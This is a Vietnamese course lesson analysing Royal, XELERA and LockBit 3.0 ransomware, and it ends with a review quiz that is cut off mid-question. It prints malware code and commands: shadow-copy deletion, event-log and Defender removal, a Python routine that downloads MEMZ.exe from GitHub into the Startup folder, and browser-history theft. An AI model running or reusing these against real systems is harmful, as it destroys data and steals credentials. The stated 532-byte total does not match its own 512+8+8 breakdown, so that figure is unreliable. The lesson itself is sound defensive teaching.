










# Bài 9: PHÂN TÍCH MÃ ĐỘC RANSOMWARE

---

## 1. Phân tích Royal Ransomware

### Tổng quan

Royal Ransomware là một nhóm ransomware được phát hiện lần đầu vào đầu năm 2022. Ban đầu nhóm này sử dụng ransomware của bên thứ ba như BlackCat và Zeon tùy chỉnh. Từ tháng 9/2022, nhóm bắt đầu dùng ransomware riêng của mình. Đến tháng 11/2022, Royal được báo cáo là ransomware phổ biến nhất trong giới tội phạm mạng, vượt qua LockBit lần đầu tiên sau hơn một năm.

!!! info "Đặc điểm nổi bật"
    - **Partial Encryption linh hoạt**: Mã hóa một tỷ lệ phần trăm tùy chỉnh của file, khó bị phát hiện hơn
    - **Multi-threaded**: Sử dụng nhiều luồng để tăng tốc độ mã hóa
    - **Hoạt động toàn cầu**: Không dùng mô hình RaaS, không nhắm vào ngành hay quốc gia cụ thể
    - **Nhiều phương thức triển khai**: Qua phishing, BATLOADER, Qbot, Cobalt Strike

---

### Thiết lập Ransomware

Khi thực thi, Royal Ransomware nhận tối đa 3 tham số dòng lệnh:

```
royal.exe -path [optional] -ep [optional] -id <32-digit-array>
```

| Tham số | Bắt buộc | Mô tả |
|---|---|---|
| `-path` | Không | Đường dẫn thư mục cần mã hóa |
| `-ep` | Không | Phần trăm file sẽ bị mã hóa (1-100) |
| `-id` | **Có** | Mảng 32 ký tự định danh nạn nhân |

!!! warning "Quan trọng"
    Nếu không có tham số `-id`, ransomware sẽ **không chạy**. Đây là cơ chế kiểm soát của nhóm tấn công để đảm bảo mỗi nạn nhân có ID riêng.

---

### Luồng xử lý tổng quan



---

### Xóa Shadow Copy

Sau khi xác thực dòng lệnh, ransomware lập tức xóa các bản sao lưu shadow copy để ngăn nạn nhân khôi phục dữ liệu:

```c
wsprintfW(CommandLine, "delete shadows /all /quiet");
CreateProcess("C:\\Windows\\System32\\vssadmin.exe", CommandLine, ...);
```

Lệnh thực thi: `vssadmin.exe delete shadows /all /quiet`

---

### Danh sách loại trừ

**File extensions bị loại trừ** (không mã hóa):

```
.exe  .dll  .bat  .lnk  README.TXT  .royal
```

**Thư mục bị loại trừ** (chứa các chuỗi sau):

```
Windows       Royal          Perflogs      Tor browser
Boot          $recycle.bin   Windows.old   $window.~ws
$windows.~bt  Mozilla        Google
```

!!! note "Lý do loại trừ"
    Các file `.exe`, `.dll`, `.bat` được loại trừ để hệ thống vẫn hoạt động được, đảm bảo nạn nhân có thể truy cập link thanh toán. Thư mục `Windows` loại trừ để tránh làm hỏng hệ điều hành.

---

### Network Scanner

Khi không có tham số `-path`, ransomware sẽ quét mạng nội bộ:



**Chi tiết kỹ thuật:**

- Sử dụng `GetIpAddrTable` để lấy danh sách địa chỉ IP
- Chỉ nhắm vào dải IP nội bộ: `192.x`, `10.x`, `100.x`, `172.x`
- Kết nối qua cổng **445 (SMB)** để tìm tài nguyên chia sẻ
- Dùng `NetShareEnum` để liệt kê các share, bỏ qua `ADMIN$` và `IPC$`

---

### Encryption Thread

**Tính số luồng mã hóa:**

```c
GetNativeSystemInfo(&SystemInfo);
numThreads = SystemInfo.dwNumberOfProcessors * 2;
// Tạo numThreads luồng mã hóa
```

Ransomware nhân đôi số lõi CPU để tạo luồng, tối đa hóa tốc độ mã hóa.

**Thiết lập RSA Public Key:**

Khóa RSA-2048 public được nhúng trực tiếp dưới dạng plaintext trong binary. Khóa này được dùng để mã hóa khóa AES ngẫu nhiên (được tạo cho mỗi file), đảm bảo chỉ kẻ tấn công mới có thể giải mã.

**Windows Restart Manager:**

Trước khi mã hóa, ransomware kiểm tra xem file mục tiêu có đang được ứng dụng nào mở không:



!!! note "Kỹ thuật tương tự"
    Conti, Babuk, và LockBit đều dùng Restart Manager theo cách tương tự.

---

### Quyết định tỷ lệ mã hóa



| Điều kiện | Kết quả |
|---|---|
| File < 5.245 MB | Mã hóa toàn bộ |
| File ≥ 5.245 MB, `-ep 100` | Mã hóa toàn bộ |
| File ≥ 5.245 MB, không có `-ep` | Mã hóa 50% |
| File ≥ 5.245 MB, `-ep X` | Mã hóa X% |

!!! tip "Chiến lược Partial Encryption"
    Mã hóa một phần giúp ransomware chạy nhanh hơn và khó bị phát hiện hơn bởi các giải pháp anti-ransomware dựa trên hành vi I/O. File vẫn bị hỏng hoàn toàn dù chỉ bị mã hóa một phần.

---

### Cấu trúc File Sau Mã Hóa

Sau khi mã hóa, Royal thêm **532 bytes vào cuối mỗi file**:

```
[Nội dung file đã mã hóa] + [512 bytes: khóa AES ngẫu nhiên đã mã hóa bằng RSA] + [8 bytes: kích thước file gốc] + [8 bytes: giá trị -ep đã dùng]
```

**Thuật toán:** AES-256 (thư viện OpenSSL)

**Quy trình:**
1. `ReadFile` - đọc nội dung file
2. Mã hóa bằng AES-256
3. `WriteFile` + `SetFilePointerEx` - ghi dữ liệu đã mã hóa
4. `MoveFileExW` - đổi tên file, thêm đuôi `.royal`

---

### Ghi Ransom Note

Đồng thời với quá trình mã hóa, một luồng riêng biệt thực hiện:

1. `GetLogicalDrives` - liệt kê tất cả ổ đĩa
2. Duyệt tất cả thư mục không nằm trong danh sách loại trừ
3. Tạo file `README.TXT` trong mỗi thư mục

Nội dung ransom note chứa link đến Tor onion site kèm ID nạn nhân:
```
http://royalzxthigbouShd7zsliqagybyygkZcdelaxtnizfyadgdpmpxedid.onion/<victim_id>
```

---

## 2. XELERA Ransomware Campaign

### Tổng quan Chiến dịch

Ngày 18/01/2025, đội nghiên cứu Seqrite phát hiện tài liệu độc hại trên VirusTotal. File mồi nhử là **FCEI-job-notification.doc**, giả mạo thông báo tuyển dụng của Food Corporation of India (FCI), nhắm vào ứng viên kỹ sư và các vị trí kỹ thuật.



---

### Giai đoạn 1: Tài liệu Độc Hại

Tài liệu Word chứa một **OLE object (Ole10Native)** được nhúng bên trong cấu trúc `ObjectPool`, kích thước **31.5 MB**.

```
oledump.py FCEI-job-notification.doc
# Stream 7: ObjectPool/_1797327314/Ole10Native (31.527.394 bytes)
```

Sau khi trích xuất, file là một **PE64 binary** - PyInstaller executable đã nén.

---

### Giai đoạn 2: PyInstaller Executable

Giải nén bằng `pyinstxtractor`, thu được các file quan trọng:

```
mainscript.pyc          # Script Python chính
notoken887/             # Module mã hóa token
command/
  admin_command.pyc
  clean_command.pyc
  close_command.pyc
  filecommands/
  gdicommands/
  fun/
psutil/                 # Theo dõi process
aiohttp/                # Async HTTP
asyncio/                # Async I/O - dùng cho C2
Crypto/                 # Mã hóa
```

---

### Giai đoạn 3: Python Scripts & Discord C2

```python
# Import chính trong mainscript.py
from notoken887.encryptor import TokenCryptor
import discord
from discord.ext import commands
from command import ip_command, help_command, close_command, admin_command
from command.media import playsound_command, screenshot_command, tts
from command.useful import search_command, reload_command
from command.troll import nomouse_command, thugbom
from command.gdicommands import tornado_command, ultraseizure_command
```

Kẻ tấn công dùng **Discord làm kênh C2 (Command & Control)**. Các lệnh được gửi qua Discord bot bằng emoji.

---

### Tính năng Discord Bot

=== "Admin Commands"
    ```
    admin        - Yêu cầu chạy với quyền Administrator
    lockpc       - Khóa màn hình
    shutdown     - Tắt máy
    restartpc    - Khởi động lại
    ```

=== "File Commands"
    ```
    cd <dir>     - Duyệt thư mục
    steal <path> - Đánh cắp file (tối đa 10MB)
    filetree     - Liệt kê cây thư mục
    share        - Upload file
    ```

=== "Troll/GDI Commands"
    ```
    blur         - Làm mờ màn hình
    tornado      - Hiệu ứng GDI xoáy
    ultraseizure - Hiệu ứng nhấp nháy cực mạnh
    nomouse      - Vô hiệu hóa chuột
    notifspam    - Spam thông báo
    ```

=== "Web Commands"
    ```
    search       - Tìm kiếm web
    open         - Mở website
    ```

---

### Leo thang Đặc quyền

```python
def is_admin():
    try:
        return ctypes.windll.shell32.IsUserAnAdmin()
    except:
        return False

async def admin_command(ctx):
    if is_admin():
        await ctx.send('The script is already running as Administrator')
    else:
        # Dùng ShellExecuteW với "runas" để yêu cầu UAC
        ctypes.windll.shell32.ShellExecuteW(
            None, "runas", sys.executable, " ".join(sys.argv), None, 1
        )
```

---

### Tính năng Ransomware XELERA

Hàm `warning()` khởi chạy 6 luồng song song:



**Màn hình tống tiền** hiển thị:
- Địa chỉ Litecoin để thanh toán
- Đếm ngược thời gian
- Thông báo file đã bị mã hóa bằng "256-bit Military Grade Encryption"

!!! warning "Lưu ý phân tích"
    XELERA thực chất **không thực hiện mã hóa thật** bằng thuật toán mật mã. Tác động chủ yếu là phá hoại (MBR corruption) và đánh cắp dữ liệu thông qua Discord bot.

---

### MBR Corruption (MEMZ.exe)

`create_memz_in_startup()` tải `MEMZ.exe` từ GitHub về thư mục Startup:

```python
url = "https://github.com/Sam-cpuggg/stuff/raw/main/MEMZ.exe"
startup_folder = os.path.join(os.getenv('APPDATA'),
    'Microsoft\\Windows\\Start Menu\\Programs\\Startup')
```

**MEMZ.exe hoạt động như sau:**



Nội dung `note.txt`:
```
YOUR COMPUTER HAS BEEN INFECTED BY THE MEMZ TROJAN.
Your computer won't boot up again, so use it as long as you can!
Trying to kill MEMZ will cause your system to be destroyed instantly so don't try it :D
```

!!! danger "Hậu quả"
    Sau khi MBR bị ghi đè, máy tính sẽ **không thể khởi động lại**. Đây là mức độ phá hoại cao nhất, không thể khôi phục nếu không có bản sao lưu.

---

### Browser Credential Stealing

```python
async def getbrowserhistory(ctx):
    def fetch_chrome_history():
        app_data_path = os.getenv('LOCALAPPDATA')
        history_db = os.path.join(app_data_path,
            'Google\\Chrome\\User Data\\Default\\History')
        return fetch_browser_history(history_db, 'Chrome')

    def fetch_edge_history():
        history_db = os.path.join(app_data_path,
            'Microsoft\\Edge\\User Data\\Default\\History')
        return fetch_browser_history(history_db, 'Edge')
```

Đánh cắp: lịch sử duyệt web, cookies, username/password từ Chrome, Edge và các trình duyệt khác.

---

## 3. LockBit 3.0 (LockBit Black)

### Tổng quan

LockBit 3.0 (còn gọi là LockBit Black) xuất hiện từ tháng 7/2022, trở thành một trong những ransomware nguy hiểm nhất thế giới. Nhiều công ty bán dẫn tại Đài Loan là nạn nhân nổi bật.

!!! info "Đặc điểm kỹ thuật nổi bật"
    - Vận hành theo mô hình **RaaS (Ransomware-as-a-Service)**
    - **Yêu cầu mật khẩu** để giải mã phần text section (tương tự Egregor, BlackCat)
    - Code có nhiều điểm tương đồng với **BlackMatter/DarkSide**
    - Cấu hình linh hoạt qua file config

---

### Luồng thực thi 4 giai đoạn



```c
// Entry point của LockBit 3.0
start:
    call UnpackSections_41B000    // Giai đoạn 1
    call ParseApiHashTable_408254 // Giai đoạn 2
    call EscalatePrivilege_408804 // Giai đoạn 3
    call RansomMain_41BF78        // Giai đoạn 4
    push uExitCode
    call ExitProcess
```

---

### Giai đoạn 1: Giải mã Section (T1140)

LockBit 3.0 yêu cầu **mật khẩu dòng lệnh** để giải mã phần `.itext` (text section thực sự):

```c
char sub_41B000() {
    WORD *CommandLine = GetCommandLine();
    sub_41B248(CommandLine, pass_val);   // Parse mật khẩu
    sub_41B2F4(vll, pass_val);           // Xử lý mật khẩu
    Rc4Ksa(vll, v12);                    // RC4 Key Schedule
    // Giải mã text section bằng RC4
    DecryptTextSegment(ImageBaseAddress, v9, v10);
}
```

Nếu không có mật khẩu đúng, ransomware không thể thực thi - đây là biện pháp **chống phân tích** hiệu quả.

---

### Giai đoạn 2: Dynamic API Resolution (T1027.007)

Thay vì import API trực tiếp (dễ bị phát hiện), LockBit 3.0 dùng kỹ thuật phức tạp 3 bước:



**5 loại stub (ví dụ stub case 2):**
```c
case 2:
    DWORD(v4) = 0x4506DFCA;
    MOV eax, al ^ 0x4506DFCA;
    BYTE(v4) = 0x35;        // XOR opcode
    XOR eax, 0x4506DFCA;
    JMP eax;                // Nhảy tới API thật
```

---

### Giai đoạn 2: Obfuscation Techniques (T1027)

**A. String Hash Matching:**

```c
int str_hashing_401E4(WORD *a1, int a2) {
    do {
        LOWORD(v2) = *a1++;
        if (v2 >= 0x41 && v2 <= 0x5A)  // Hoa -> thường
            LOWORD(v2) += 0x20;
        a2 = v2 + ROR4(a2, 13);         // Rotate + cộng
    } while (v2);
    return a2;
}
```

Thay vì so sánh tên API trực tiếp, LockBit hash tên API và so sánh hash - khó reverse hơn.

**B. Stack String Obfuscation:**

```c
void str_decrypt_401260(int *a1, int cnt) {
    do {
        *a1 ^= 0x4506DFCAu;  // XOR với key cố định
        a1++;
        cnt--;
    } while (cnt);
}
```

Chuỗi được lưu dưới dạng đã mã hóa trên stack, chỉ giải mã khi cần dùng.

---

### Giai đoạn 3: Leo Thang Đặc Quyền

=== "Token Impersonation (T1134.001)"
    LockBit 3.0 sao chép access token của **Trusted Installer Service** - service có quyền dừng Windows Defender. Sau đó dùng token đó để:
    - Dừng các service của Windows Defender
    - Xóa Windows Defender
    
    ```c
    // Tìm và hash tên các service Defender
    // UdBoot, UdFilter, UdNisDrv, UdNlisSvc, WinDefend, WscSvc, SppSvc, Sense, SecurityHealthService
    OpenService(hSCManager, ~v0, FILE_TRAVERSE | DELETE);
    ControlService(hSCObject, 3, &ServiceStatus);  // Stop
    DeleteService(hSCObject);                       // Delete
    ```

=== "UAC Bypass (T1548.002)"
    Sử dụng kỹ thuật **CMSTPLUA UAC Bypass** để tự leo thang đặc quyền mà không cần hiển thị hộp thoại UAC cho người dùng.

=== "Safeboot Persistence (T1547.001)"
    Đặt registry autorun trong chế độ safeboot để đảm bảo ransomware chạy ngay cả khi nạn nhân boot vào Safe Mode.

---

### Giai đoạn 4: RansomMain - Chi tiết

**Kiểm tra ngôn ngữ hệ thống (T1614.001):**

```c
// Code từ BlackMatter/DarkSide
NtQueryInstallUiLanguage(&lang1);
NtQueryDefaultUiLanguage(&lang2);
// Nếu ngôn ngữ là CIS country -> thoát
// 0x419=Russian, 0x422=Ukrainian, 0x423=Belarusian, v.v.
if (language == RUSSIAN || language == UKRAINIAN || ...)
    ExitProcess(0);
```

**Xóa Shadow Copy (T1490):**

```
wmic shadowcopy delete
```

Dùng WMI thay vì vssadmin để tránh bị phát hiện.

**Xóa Windows Event Log (T1070.001):**

```c
// Mở từng event log channel
OpenEventLogW(NULL, ChannelName);
ClearEventLogW(hEventLog, NULL);  // Xóa log
// Vô hiệu hóa channel
RegSetValueExW(Handle, L"Enabled", 4, &Data=0, 4);
// Dừng và xóa service EventLog
ControlService(hService, 1, &ServiceStatus);
DeleteService(hService);
```

**Kill Processes & Services (T1489):**

```
# Processes bị kill:
sql oracle ocssd dbsnmp synctime agntsvc isqlplussvc
firefox excel infopath msaccess mspub onenote outlook
powerpnt steam thunderbird visio winword wordpad notepad

# Services bị remove:
Vss sql svcS memtas mepocs msexchange sophos veeam
backup GxVss GxBlr GxFWD GxCVD GxCIMgr
```

**Mã hóa đa luồng (T1486):**

```c
int EncryptFilesByMultithread() {
    CpuNum = GetCpuNum();
    if (CpuNum > 0x20) CpuNum = 32;  // Giới hạn 32 luồng
    CompletionPort = CreateIoCompletionPort(INVALID_HANDLE_VALUE, NULL, NULL, CpuNum);
    for (v5 = 0; v5 < CpuNum; v5++) {
        Thread = CreateThread(NULL, 0,
            EncryptFilesFromCompletionPort_40FCAC, NULL, 0, NULL);
        HideThreadFromDebugger(Thread);  // Anti-debug
    }
}
```

---

### Cấu hình LockBit 3.0

LockBit 3.0 hỗ trợ cấu hình linh hoạt qua config file. Một số flag quan trọng:

| Flag | Chức năng |
|---|---|
| `LB3_ENCRYPT_ANY_BIG_FILE` | Mã hóa file lớn |
| `LB3_RANDOMISE_FILENAME` | Ngẫu nhiên hóa tên file |
| `LB3_LANGUAGE_CHECK` | Kiểm tra ngôn ngữ CIS |
| `LB3_ENCRYPT_NETWORK_SHARES` | Mã hóa tài nguyên mạng |
| `LB3_KILL_PROCESSES` | Kill processes |
| `LB3_KILL_SERVICES` | Kill services |
| `LB3_SET_BACKGROUND` | Đổi hình nền |
| `LB3_REGISTER_ICON` | Thay icon file |
| `LB3_SELF_DESTRUCT` | Tự xóa sau khi chạy |
| `LB3_ATTEMPT_UAC_BYPASS` | Bypass UAC |
| `LB3_CLEAR_EVENT_LOGS` | Xóa Event Log |

---

### MITRE ATT&CK Mapping - LockBit 3.0



---

## Câu hỏi Ôn tập Trắc nghiệm

**Câu 1.** Royal Ransomware được phát hiện lần đầu vào thời gian nào?

- A. Đầu năm 2021
- B. Đầu năm 2022
- C. Tháng 9/2022
- D. Tháng 11/2022

??? info "Đáp án & Giải thích"
    **Đáp án: B**
    
    Royal Ransomware được phát hiện lần đầu vào đầu năm 2022. Ban đầu nhóm dùng ransomware bên thứ ba (BlackCat, Zeon). Từ tháng 9/2022 mới dùng ransomware riêng. Tháng 11/2022 là thời điểm Royal vượt LockBit về mức độ phổ biến.

---

**Câu 2.** Tham số bắt buộc khi chạy Royal Ransomware là gì?

- A. `-path`
- B. `-ep`
- C. `-id`
- D. `-key`

??? info "Đáp án & Giải thích"
    **Đáp án: C**
    
    Tham số `-id` là bắt buộc. Nếu không có `-id` (mảng 32 ký tự định danh nạn nhân), ransomware sẽ không chạy. Đây là cơ chế kiểm soát của nhóm tấn công.

---

**Câu 3.** Royal Ransomware sử dụng lệnh nào để xóa shadow copy?

- A. `wbadmin delete backup`
- B. `vssadmin delete shadows /all /quiet`
- C. `bcdedit /set {default} recoveryenabled No`
- D. `wmic shadowcopy delete`

??? info "Đáp án & Giải thích"
    **Đáp án: B**
    
    Royal dùng `vssadmin.exe` với tham số `delete shadows /all /quiet` để xóa toàn bộ shadow copy một cách im lặng. LockBit 3.0 dùng WMI (`wmic shadowcopy delete`) thay vì vssadmin.

---

**Câu 4.** File extension nào KHÔNG bị Royal Ransomware loại trừ khỏi quá trình mã hóa?

- A. `.exe`
- B. `.dll`
- C. `.docx`
- D. `.royal`

??? info "Đáp án & Giải thích"
    **Đáp án: C**
    
    Danh sách loại trừ của Royal: `.exe`, `.dll`, `.bat`, `.lnk`, `README.TXT`, `.royal`. File `.docx` là tài liệu người dùng - đây chính là mục tiêu của ransomware.

---

**Câu 5.** Royal Ransomware tính số luồng mã hóa như thế nào?

- A. Cố định 4 luồng
- B. Bằng số lõi CPU
- C. Số lõi CPU nhân 2
- D. Số lõi CPU chia 2

??? info "Đáp án & Giải thích"
    **Đáp án: C**
    
    `GetNativeSystemInfo()` lấy số processor, sau đó nhân 2 để tạo số luồng tương ứng. Chiến lược này tối đa hóa hiệu suất mã hóa.

---

**Câu 6.** Khi file có kích thước lớn hơn 5.245 MB và không có tham số `-ep`, Royal sẽ mã hóa bao nhiêu phần trăm file?

- A. 100%
- B. 75%
- C. 50%
- D. 25%

??? info "Đáp án & Giải thích"
    **Đáp án: C**
    
    Mặc định khi không có `-ep` và file > 5.245 MB, Royal mã hóa 50% nội dung file.

---

**Câu 7.** Royal Ransomware thêm bao nhiêu bytes vào cuối mỗi file đã mã hóa?

- A. 256 bytes
- B. 512 bytes
- C. 532 bytes
- D. 1024 bytes

??? info "Đáp án & Giải thích"
    **Đáp án: C**
    
    532 bytes = 512 bytes (khóa AES ngẫu nhiên đã mã hóa bằng RSA) + 8 bytes (kích thước file gốc) + 8 bytes (giá trị ep đã dùng).

---

**Câu 8.** Royal Ransomware dùng thuật toán mã hóa nào cho nội dung file?

- A. RSA-2048
- B. AES-256
- C. ChaCha20
- D. Salsa20

??? info "Đáp án & Giải thích"
    **Đáp án: B**
    
    Royal dùng AES-256 (thư viện OpenSSL) để mã hóa nội dung file. RSA-2048 được dùng để mã hóa khóa AES (không mã hóa file trực tiếp).

---

**Câu 9.** Sau khi mã hóa xong, Royal Ransomware đổi tên file bằng API nào?

- A. `RenameFile`
